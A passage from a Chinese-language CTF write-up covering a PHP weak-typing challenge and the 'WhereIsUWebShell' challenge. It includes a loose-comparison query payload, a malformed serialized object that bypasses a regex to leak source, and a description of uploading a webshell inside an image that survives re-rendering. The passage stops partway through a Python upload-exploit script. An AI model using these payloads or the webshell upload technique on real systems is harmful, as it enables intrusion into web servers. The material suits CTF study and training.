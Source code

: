 第一步是简单的php弱类型游戏：

```
ppp[number1]=2022a&amp;ppp[number2]=8e9&amp;ppp[number3]=61823470&amp;ppp[number4]=0e12345&amp;ppp[number5]=abcd
```

拿到第一个key。

第二步是通过迅雷下载不稳定的题目附件，解压之后递归遍历一下 docx 内容，拿到第二个key。提交两个key获得flag。

## WhereIsUWebShell

通过构造畸形序列化字符串，绕过正则，获取源码。进行代码审计：

```
O:7:"myclass":1:`{`s:5:"hello";O:5:"Hello":2:`{`s:3:"qwb";s:36:"e2a7106f1cc8bb1e1318df70aa0a3540.php";`}``}`
```

[![](https://p3.ssl.qhimg.com/t010d32fae3e400eab0.jpg)](https://p3.ssl.qhimg.com/t010d32fae3e400eab0.jpg)

通过 post 上传临时可以绕过二次渲染的马，getshell。可以利用 file_get_contents 来阻塞住进程，延长临时文件存在的时间。

```
# -*- coding: utf-8 -*-

import re

import sys

import requests

import threading

import time

 

image = open('evil.png', 'rb').read()

uploadImage = [('file', ('exp.png',

                         image,

                         'application/png'))]

 

proxies = `{`

    'http': '127.0.0.1:8080'

`}`

 

 

def upload():

    payload = `{``}`

    files = uploadImage

    headers = `{`
```